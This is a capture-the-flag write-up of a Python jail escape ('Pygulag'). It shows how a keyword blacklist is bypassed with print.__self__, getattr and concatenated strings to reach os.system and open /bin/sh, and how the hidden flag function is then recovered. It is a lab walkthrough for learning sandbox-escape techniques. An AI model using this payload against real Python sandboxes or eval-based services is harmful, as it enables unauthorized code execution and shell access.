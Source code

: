 # Pygulag

![](2023-05-14-10-47-17.png)

This is a harder version of the initial pyjail given in this CTF.

Note: The `jail.py` file attached was not given during the CTF. I exfitrated this file while working on the challenge.

Final Payload:

```
print.__self__.getattr(print.__self__.getattr(print.__self__.getattr(print.__self__.getattr(print.__self__.list, "__clas"+"s__"), "__ba"+"se__"), "__subcl"+"asses__")()[-4].__init__, "__glo"+"bals__")["sy"+"s"+"tem"]("/bi"+"n/s"+"h")
```

In the previous pyjail, the words `exec` and `eval` were filtered. I decided to start with my old payload:

`[].__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('/bin/bash')`

I determined that:

- `__class__` is now on the blacklist
- `__base__` is now on the blacklist
- `__subclasses__` is now on the blacklist.
- `=` is now on the blacklist.
- `system` is now on the blacklist.

This completely breaks my previous payload. I'm using attributes to make my way up to the object class, and these attributes are case sensitive, so I need to find a new way to do this.

Rather than starting from `[]` or `{}`, I decided to start from the `print` function for this jail. Using a local Python shell, I can see what I have access to:

```
>>> dir(print)
['__call__', '__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__self__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__text_signature__']
```

The thing that stuck out to me is `__getattribute__`. If I am able to use this, I can access things like `__class__` using a string, so I'm able to avoid a word filter by getting `__cl` + `ass__`. Unforutnately, this was also blacklisted.

The next thing I did was check out out `print.__self__` would let me access:

```
>>> dir(print.__self__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EncodingWarning', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

And this gives me access to a lot of things!

There are a few interesting things above, including

- `locals()` function
- `globals()` function
- `getattr()` function
- `__loader__` directive (not entirely sure if directive is the correct word to use here)

Calling the locals() function on remote shows me the following:

```
>> print(print.__self__.locals())
{'ImTheFlagFunction9876543210': <function ImTheFlagFunction9876543210 at 0x7fb7e93c3dc0>, 'main at 0x7fb7e93c3ee0>, 'jail': <function jail at 0x7fb7e93c3e50>}
```

!!! looks like there is a flag function. Let's call it:

```
>> print(print.__self__.locals()['ImTheFlagFunction9876543210'])
<function ImTheFlagFunction9876543210 at 0x7fb7e93c3dc0>
```

![](2023-05-15-13-24-43.png)

Of course it won't be that easy...

From here I tried messing with the `__code__` attribute of the function object to see if I could reconstruct the function to see what is happening there.

I was able to see the following information:

```
>> print(print.__self__.locals()['ImTheFlagFunction9876543210'].__code__.co_varnames)
('key', 'p1', 'p2', 'p3', 'x', 'c', 'p4', 'p5', 'flag')
```

```
>> print(print.__self__.locals()['ImTheFlagFunction9876543210'].__code__.co_argcount)
1
```

```
>> print(print.__self__.locals()['jail'].__code__.co_consts)
(None, '>> ', 'import', 'os', 'sys', 'eval', 'exec', '__builtins__', '__globals__', '__getattribute__', '__dict__', '__base__', '__class__', '__subclasses__', 'dir', 'help', 'exit', 'open', 'read', 'jail()', 'main()', 'replace', '=', True, "You're trying something fancy aren't u ?", False, 23, 126, 'print', ('ImTheFlagFunction9876543210', 'main', 'jail'), 'An error occured. But which...')
>>
```

```
>> print(print.__self__.locals()['ImTheFlagFunction9876543210'].__code__.co_consts)
(None, 'Hero{4', '33e8e40da5bec09', -1, '', 12, b'?;9ms!w$ -.. ++', 1, 48, '}', 'Hero{F4ke_Fl4g}')
```

Using the above information, I'm able to deduce that the function itself does compute the flag, but a fake flag is printed to the terminal instead. So I will shift my goal now to getting a shell.

Going back to `print.__self__`, I see that I have access to the function `getattr()` . Unlike `__getattribute__`, this is not filtered, so I now have a clear way of fetching a reference to the base object model, a reference to the os model, and eventually `os.system()`.

Because the function allows me to pass in the attribute I want as a string, I can evade whatever filters exist by concatenating strings.

For example, see the following:

```
print.__self__.getattr(print.__self__.getattr(print.__self__.list, "__clas"+"s__"), "__ba"+"se__")
```

This allows me to get the base object class. If I nest several of these calls, I can reconstruct the logic of my payload from the first jail to get a shell:

```
print.__self__.getattr(print.__self__.getattr(print.__self__.getattr(print.__self__.getattr(print.__self__.list, "__clas"+"s__"), "__ba"+"se__"), "__subcl"+"asses__")()[-4].__init__, "__glo"+"bals__")["sy"+"s"+"tem"]("/bi"+"n/s"+"h")
```

Now with this, i can `cat jail.py` to see the actual flag function:

```
def ImTheFlagFunction9876543210(key):
    p1 = "Hero{4"
    p2 = "33e8e40da5bec09"[::-1]
    p3 = ''
    x = 12
    for c in b'?;9ms!w$ -.. ++':
        p3 += chr(c^x)
        x += 1
    key = key[1]
    p4 = chr((ord(key)//ord(key))*48)
    p5 = "}"
    flag = p1 + p2 + p3 + p4 + p5
    print('Hero{F4ke_Fl4g}')
```

I can easily modify this:

```
def ImTheFlagFunction9876543210(key):
    p1 = "Hero{4"
    p2 = "33e8e40da5bec09"[::-1]
    p3 = ''
    x = 12
    for c in b'?;9ms!w$ -.. ++':
        p3 += chr(c^x)
        x += 1
    key = key[1]
    p4 = chr((ord(key)//ord(key))*48)
    p5 = "}"
    flag = p1 + p2 + p3 + p4 + p5
    print(flag)
```

For the parameter, it looks like it does not matter what the value is as long it is 2 characters or more and the second character is not zero (which would cause division by zero when calculating `p4`.)

So we can call the function with `ImTheFlagFunction9876543210("win")` to get the flag:

Flag: `Hero{490ceb5ad04e8e33367bc0e748898210}`
